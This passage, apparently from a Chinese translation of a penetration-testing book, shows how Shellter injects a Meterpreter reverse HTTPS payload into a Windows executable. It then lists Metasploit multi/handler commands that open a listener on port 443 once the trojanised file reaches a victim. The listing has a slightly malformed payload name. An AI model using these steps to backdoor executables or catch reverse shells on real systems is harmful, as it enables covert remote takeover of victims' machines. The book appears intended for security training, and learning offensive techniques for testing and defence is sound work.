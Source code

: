 1.  在这个例子中，我们使用`Meterpreter_reverse_HTTPS`并提供`LHOST`和`LPORT`，如*图 9.20*所示：![](img/B17765_09_20.png)

    图 9.20：成功设置有效载荷选项

1.  所有所需的信息都已输入到 Shellter 中。同时，作为输入的 PE 文件现在已经注入了有效载荷，注入过程完成了。![](img/B17765_09_21.png)

    图 9.21：Kali Linux 中的 Shellter 主菜单

一旦这个可执行文件被传送到受害者那里，攻击者现在将能够根据有效载荷打开监听器；在我们的例子中，`LHOST`是`10.10.10.12`，`LPORT`是`443`：

```
use exploit/multi/handler 
set payload windows/meterpreterreverse_HTTPS 
set lhost <YOUR KALI IP> 
set lport 443 
set exitonsession false 
exploit -j -z 
```
